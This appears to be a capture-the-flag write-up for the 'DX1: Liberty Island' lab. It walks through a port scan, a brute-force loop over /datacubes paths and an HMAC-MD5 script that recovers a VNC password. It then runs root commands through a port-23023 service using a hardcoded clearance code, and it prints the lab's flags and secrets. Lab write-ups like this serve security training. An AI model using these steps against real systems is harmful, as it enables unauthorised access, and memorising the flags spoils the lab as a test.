

# DX1: Liberty Island



## Port Scan

```bash
└─$ rustscan -a libertyisland.thm --ulimit 5000 -- -A -oN nmap.log
...
Open xx.xx.xxx.xxx:22
Open xx.xx.xxx.xxx:80
Open xx.xx.xxx.xxx:5901
Open xx.xx.xxx.xxx:23023
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2b:77:99:0a:02:f9:33:a8:92:28:98:a2:83:e3:7e:93 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCxMREuFR4Ejj8UxFcsyYSkjLEFA0w04xAABshZW/V6WkN3Oc1Gs5UBEw96NaaT2wx8+molPIYgqzbrrR4HAV2GgEm/V6Aw+vXCDXYqDJ9BFFCMWsHPLsFh3dzAnt7Gve9JBQEDcVcBsXgIYuf0cue3VxJCIlq8FqExnD58mFFoEw54Zre1mSWvdC3HV//5MFQ5L1+bCjLifcYs2LdKahX9z5uao0ESVLEn9xliTcPKIC24pquu5kq2lY4bUMmtUbqtU8HxjUpZ1X2TW5wUuBMJ/9b+ctEs3cQMg1sfFoFGL40AqvH3btpAFepVJUL6F3XOU5eftv9MZhAhcAkst0PN5cMU+1csvE47edmglSvpTYiCrPavoh6uv7Gn5fE91zDBGH/eS+bEn408rKb0IUSW2hKMMY+qHRV7uEiCNNscOl5UBDN/pAiwLdMYzRLkLypInfpAS4nRIIchsAyBu9BBO1eaoql2ZN9ACUwPgEXSWZHfgtGmN5liuLy9LKGXVz8=
|   256 2f:5b:6a:4b:b5:ea:c9:dd:9f:d0:c8:dd:23:97:23:88 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCoXKR5n/lqyWmo6SJaqCfcOtJudM1DP47m4Qun/J43gNr7cjLEfMwhVI+IUX3iFfuSJpvdiWEuYXaldY8NjWR0=
|   256 0c:ba:fb:61:0b:67:33:e3:a2:fb:99:25:55:80:c8:34 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF8cjJaQxGKPIhadtKL50FX0ctbb6Is2WEX7kR+coTyM
80/tcp    open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/datacubes *
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: United Nations Anti-Terrorist Coalition
5901/tcp  open  vnc     syn-ack ttl 62 VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VeNCrypt (19)
|     VNC Authentication (2)
|   VeNCrypt auth subtypes: 
|     Unknown security type (2)
|_    VNC auth, Anonymous TLS (258)
23023/tcp open  http    syn-ack ttl 62 Golang net/http server
|_http-title: Site doesn't have a title (text/plain).
|_http-favicon: Unknown favicon MD5: 6E953A30149E2758AC23DF4BE84E4DE6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/plain
|     Date: Thu, 04 Jun 2026 11:46:41 GMT
|     Content-Length: 90
|     UNATCO Liberty Island - Command/Control
|     RESTRICTED: ANGEL/OA
|     send a directive to process
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/plain
|     Date: Thu, 04 Jun 2026 11:46:24 GMT
|     Content-Length: 90
|     UNATCO Liberty Island - Command/Control
|     RESTRICTED: ANGEL/OA
|     send a directive to process
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/plain
|     Date: Thu, 04 Jun 2026 11:46:25 GMT
|     Content-Length: 90
|     UNATCO Liberty Island - Command/Control
|     RESTRICTED: ANGEL/OA
|_    send a directive to process
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23023-TCP:V=7.99%I=7%D=6/4%Time=6A216591%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,E0,"HTTP/1\.0\x20200\x20OK\r\nAccess-Control-A
SF:llow-Origin:\x20\*\r\nContent-Type:\x20text/plain\r\nDate:\x20Thu,\x200
SF:4\x20Jun\x202026\x2011:46:24\x20GMT\r\nContent-Length:\x2090\r\n\r\nUNA
SF:TCO\x20Liberty\x20Island\x20-\x20Command/Control\n\nRESTRICTED:\x20ANGE
SF:L/OA\n\nsend\x20a\x20directive\x20to\x20process")%r(HTTPOptions,E0,"HTT
SF:P/1\.0\x20200\x20OK\r\nAccess-Control-Allow-Origin:\x20\*\r\nContent-Ty
SF:pe:\x20text/plain\r\nDate:\x20Thu,\x2004\x20Jun\x202026\x2011:46:25\x20
SF:GMT\r\nContent-Length:\x2090\r\n\r\nUNATCO\x20Liberty\x20Island\x20-\x2
SF:0Command/Control\n\nRESTRICTED:\x20ANGEL/OA\n\nsend\x20a\x20directive\x
SF:20to\x20process")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clos
SF:e\r\n\r\n400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf
SF:-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(FourOhFourR
SF:equest,E0,"HTTP/1\.0\x20200\x20OK\r\nAccess-Control-Allow-Origin:\x20\*
SF:\r\nContent-Type:\x20text/plain\r\nDate:\x20Thu,\x2004\x20Jun\x202026\x
SF:2011:46:41\x20GMT\r\nContent-Length:\x2090\r\n\r\nUNATCO\x20Liberty\x20
SF:Island\x20-\x20Command/Control\n\nRESTRICTED:\x20ANGEL/OA\n\nsend\x20a\
SF:x20directive\x20to\x20process")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnect
SF:ion:\x20close\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=ut
SF:f-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (95%), Linux 5.4 - 5.15 (95%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.11 (92%), Linux 3.7 - 4.19 (92%), Linux 4.12 (92%)
No exact OS matches for host (test conditions non-ideal).
```

There are 4 opening ports, they are:

- Port 22: SSH(OpenSSH 8.2p1)
- Port 80: HTTP (Apache httpd 2.4.41)
- Port 5901: VNC (protocol 3.8)
- Port 23023: HTTP (Golang net/http server)

## HTTP (Port 80)

Port 80 shows the UNATCO main page.


In the above scan, we already know there is a `robots.txt` file. Inside it, Alex mentioned the`/datacubes` directory.


## Datacubes Directory Enumeration

The index (`0000`) shows that the credentials are redacted.


So I wrote a bash script to enumerate the potential contents.

```bash
#!/bin/bash

for i in {0000..9999}; do
    result=$(curl -s "http://libertyisland.thm/datacubes/$i/")
    if [[ "$result" != *'Not Found'* ]]; then
        echo -e "$i is valid\n$result\n"
    fi
done
```

Running the script will show us some messages.

```bash
└─$ bash curl.sh 
0000 is valid
Liberty Island Datapads Archive<br/><br/>
All credentials within *should* be [redacted] - alert the administrators immediately if any are found that are 'clear text'<br/><br/>
Access granted to personnel with clearance of Domination/5F or higher only.

0011 is valid
attention nightshift:<br/>
van camera system login (same as old login): [redacted]<br/>
new password: [redacted]<br/><br/>

PS) we *will* beat you at darts on saturday, suckas.

0068 is valid
So many people use that ATM each day that it's busted 90% of the time.  But if
it's working, you might need some cash today for the pub crawl we've got
planned in the city.  Don't let the tourists get you down.  See you there
tonight, sweetie.<br/><br/>

Accnt#: [redacted]<br/>
PIN#: [redacted]<br/><br/>

Johnathan - your husband to be.<br/><br/>

PS) I was serious last night-I really want to get married in the Statue.  We
met there on duty and all our friends work there.

0103 is valid
Change ghermann password to [redacted].  Next week I guess it'll be
[redacted].  Strange guy...

0233 is valid
From: Data Administration<br/>
To: Maintenance<br/><br/>

Please change the entry codes on the east hatch to [redacted].<br/><br/>

NOTE: This datacube should be erased immediately upon completion.

0451 is valid
Brother,<br/><br/>

I've set up <b>VNC</b> on this machine under jacobson's account. We don't know his loyalty, but should assume hostile.<br/>
Problem is he's good - no doubt he'll find it... a hasty defense, but
since we won't be here long, it should work.  <br/><br/>

The VNC login is the following message, 'smashthestate', hmac'ed with my username from the 'bad actors' list (lol). <br/>
Use md5 for the hmac hashing algo. The first 8 characters of the final hash is the VNC password.

- JL

```

The last message (`/0451/`) talks about `jacobson` VNC password.

```bash
Brother,<br/><br/>

I've set up <b>VNC</b> on this machine under jacobson's account. We don't know his loyalty, but should assume hostile.<br/>
Problem is he's good - no doubt he'll find it... a hasty defense, but
since we won't be here long, it should work.  <br/><br/>

The VNC login is the following message, 'smashthestate', hmac'ed with my username from the 'bad actors' list (lol). <br/>
Use md5 for the hmac hashing algo. The first 8 characters of the final hash is the VNC password.

- JL
```

<aside>
💡

I believe this [writeup](https://medium.com/@p1yush_offsec/dx1-liberty-island-b8dacfc83fd6) did a better job at this part, as I spent way too long on the enumeration. Please also reference this.

</aside>

## Obtaining VNC Password

To obtain the password, we need to know JL’s username, which should be `jlebedev` 


We can then compute the hash using CyberChef.


Alternatively, we can also write our own program.

```bash
import hashlib
import hmac

message = b'smashthestate'

with open('badactors.txt', 'r') as f:
    keys=f.read().splitlines()

for key in keys:
    hmac_object = hmac.new(key.encode(), message, hashlib.md5)
    hmac_signature=hmac_object.hexdigest()
    print(f'{key}:{hmac_signature[0:8]}')
    with open('hashes.txt', 'a') as p:
        p.write(hmac_signature[0:8]+"\n")
```

Either way, we will still be able to obtain `311781a1`.

```bash
└─$ python hash.py 
...
jlebedev:311781a1
...
```

## Gain a Foothold

Now, we can connect to VNC!

```bash
vncviewer libertyisland.thm:5901
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password: 
Authentication successful
```

Obtain the `user.txt` from the desktop.


User Flag: `thm{6ae787a98fff512ae33335e1264f0dd3}`

## Escalation Idea

On the desktop, we found an executable called `badactors-list`, which allows us to update the list in `badactors.txt`.


Here, I added a test entry.


However, if we look at the ownership of the `badactors.txt` file, we will find that it is owned by root.

```bash
C:\home\ajacobson\Desktop> ls -la
total 6792
drwxr-xr-x  2 ajacobson ajacobson    4096 Oct 22  2022 .
drwxr-xr-x 20 ajacobson ajacobson    4096 Jun  4 11:19 ..
-rwxr-xr-x  1 ajacobson ajacobson 6941856 Oct 22  2022 badactors-list
-rw-r--r--  1 ajacobson ajacobson     643 Oct 22  2022 user.txt
C:\home\ajacobson\Desktop> cd /var/www
C:\var\www> ls -la
total 12
drwxr-xr-x  3 root root 4096 Oct 22  2022 .
drwxr-xr-x 14 root root 4096 Oct 22  2022 ..
drwxr-xr-x  3 root root 4096 Oct 22  2022 html
C:\var\www> cd html
C:\var\www\html> ls -la
total 360
drwxr-xr-x 3 root     root       4096 Oct 22  2022 .
drwxr-xr-x 3 root     root       4096 Oct 22  2022 ..
-rw-r--r-- 1 www-data www-data   1238 Oct 22  2022 badactors.html
-rw-r--r-- 1 root     root        310 Jun  4 13:12 badactors.txt
drwxr-xr-x 8 www-data www-data   4096 Oct 22  2022 datacubes
-rw-r--r-- 1 www-data www-data    909 Oct 22  2022 index.html
-rw-r--r-- 1 www-data www-data  78252 Oct 22  2022 MorePerfectDOSVGA.ttf
-rw-r--r-- 1 www-data www-data     95 Oct 22  2022 robots.txt
-rw-r--r-- 1 www-data www-data    401 Oct 22  2022 style.css
-rw-r--r-- 1 www-data www-data   5939 Oct 22  2022 terrorism.html
-rw-r--r-- 1 www-data www-data   4140 Oct 22  2022 threats.html
```

This made us realize that this might be our way to escalate our privileges.

## ELF and Port 23023 Analysis

So I copied the ELF to my own machine (some extra libraries might be needed as well). And I realized I forgot about port `23023`.


We can try to take a look at port `23023` (I added `unatco` entry in `/etc/hosts`).


We were told to send a directive.

To find out what it means, I decided to capture the traffic when I executed the ELF and found that the directive is just a command.


So what if I put `pwd` instead?

```bash
└─$ curl http://unatco:23023 -d 'directive=pwd'                                                                                                 
UNATCO Liberty Island - Command/Control

ACCESS DENIED - Invalid Clearance-Code
```

We get an Access Denied error because we didn't provide the Clearance Code. Luckily for us, it is always `7gFfT74scCgzMqW4EQbu`.

## Get Root Flag

Now we can execute arbitrary commands and get the root flag.

```bash
└─$ curl http://unatco:23023 -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' -d 'directive=pwd'                                                                                                     
/

└─$ curl http://unatco:23023 -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' -d 'directive=id'                                                                                                   
uid=0(root) gid=0(root) groups=0(root)

└─$ curl http://unatco:23023 -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' -d 'directive=ls /root'                                                                                         
go
root.txt
snap

└─$ curl http://unatco:23023 -H 'Clearance-Code: 7gFfT74scCgzMqW4EQbu' -d 'directive=cat /root/root.txt'                                                                                      

From: AJacobson//UNATCO.00013.76490
To: JCDenton//UNATCO.82098.9868
Subject: Come by my office

We need to talk about that last mission.  In person, not infolink.  Come by my
office after you've been debriefed by Manderley.

    thm{985bb3c88bfe66f9b465b00198692866}

-alex-
```

Root Flag: `thm{985bb3c88bfe66f9b465b00198692866}`
